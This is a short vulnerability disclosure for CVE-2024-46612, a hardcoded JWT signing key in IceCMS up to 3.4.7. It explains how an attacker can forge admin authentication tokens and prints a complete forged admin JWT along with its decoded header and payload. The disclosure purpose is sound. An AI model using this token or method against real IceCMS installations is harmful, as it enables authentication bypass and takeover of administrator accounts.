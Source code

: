
**[CVE-ID]**

CVE-2024-46612

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Use of Hard-coded Credentials

**[Description]**

IceCMS v3.4.7 was discovered to contain a hardcoded JWT key, allowing an attacker to forge JWT authentication information.
 
JwtUtil.java

![pic1](/icecms/PIC/CVE-2024-46612-1.png)


Attackers can construct their own jwt authentication headers and edit them online through https://jwt.io/.
The "exp" is a timestamp.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "username": "admin",
  "role": "admin",
  "sub": "3",
  "exp": 1727622963,
  "jti": ""
}
```
这是admin用户的jwt鉴权信息：
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwic3ViIjoiMyIsImV4cCI6MTcyNzYyMjk2MywianRpIjoiIn0.
bTps5cbUkX61R9aJAWgRrd57Ctsh8Uoo1VcJNJUOv-8
```
这是伪造出来的jwt鉴权信息，在知道jwt key的情况下，完全相同
![pic2](/icecms/PIC/CVE-2024-46612-2.png)

